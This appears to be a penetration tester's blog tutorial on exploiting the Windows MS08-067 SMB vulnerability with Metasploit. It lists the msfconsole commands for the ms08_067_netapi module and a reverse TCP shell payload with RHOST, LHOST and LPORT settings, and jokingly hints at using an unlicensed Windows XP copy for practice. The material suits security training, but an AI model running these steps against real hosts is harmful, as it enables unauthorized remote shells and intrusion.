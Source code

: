 ### Metasploit

The `ms08_067_netapi` module is a well known and stable exploit that comes with the [Metasploit framework](https://www.rapid7.com/db/modules/exploit/windows/smb/ms08_067_netapi). Not all exploit modules have a [check command](https://www.offensive-security.com/metasploit-unleashed/msfconsole-commands/), as it will only apply to exploits where the ability to perform checks (without actually exploiting it) are written into the module. This function ishandy to confirm if the target meets the requirements for exploitation. Luckily, the `ms08_067_netapi` does come with the check command avaliable!

From your Nmap scanning, you should have the IP of your target host, and have an initial confiration that the host is vulnerable.

**Prepare the exploit**

1. Start metasploit using the `msfconsole` command
2. Load the exploit module `use exploit/windows/smb/ms08_067_netapi`
3. Type `info` to learn more about the exploit
4. Enter `options` to list the options required for exploitation
5. Set your target machine `set RHOST 192.168.143.138`

**Prepare your payload**

1. You can use the `show payloads` command to list the compatible payloads for your choosen exploit.
2. In this example, we will use the reverse meterpreter tcp shell, enter `set PAYLOAD windows/shell/reverse_tcp`
3. Enter `options` to list the options for both the configured exploit and payload.
3. Now configure the payload to target to your machine's IP, this will allow us to establish the reverse shell connection `set LHOST 192.168.0.1` 
4. Configure the listening port, by default this is port 4444 `set the LPORT 4444`

> A meterpreter payload provides a shell with additional tools and features that make navigating, escalating privaleges, gaining and cracking password hashes on a host much easier. It is worth playing around with a meterpreter shell and a standard reverse tcp shell (i.e. set payload windows/shell/reverse_tcp) to learn the differences between the two.

**Execute**
1. You can run the `check`command prior to exploitation
2. Or execute via the `run` command

If the exploit completes successfully, you should have a connection to the machine.

One problem is that to practice exploiting MS08_067, you will need to purchase a copy of the windows operating system running one of the vulnerable versions. I mean if you were to download a windows XP installation image, happened to find a licence key and install it? Well i`m just not sure if that is a viable solution to your problem. But you know, with these things its generally about [The Implication](https://www.youtube.com/watch?v=MZ1lc6KASWg).

## Is it really that bad?

If MS08-067 was a child, it would be over 8 years years old by now. It is so easy to exploit and provides such privaleged access to a host, that you would think it would be extremely rare to discover in businesses today. I am dissapointed to write that I am still extremely discovering MS08-067 on my penetration tests to date. Yes, thats right, i'm dissaponted. You might be thinking *"But why are you complaining - that makes your job SO easy!"* and I would agree on face value, that yes it does make my job easy. Waltz in, exploit like a bawse, write an easy report and swagger on my way - *because you just pwned them.*
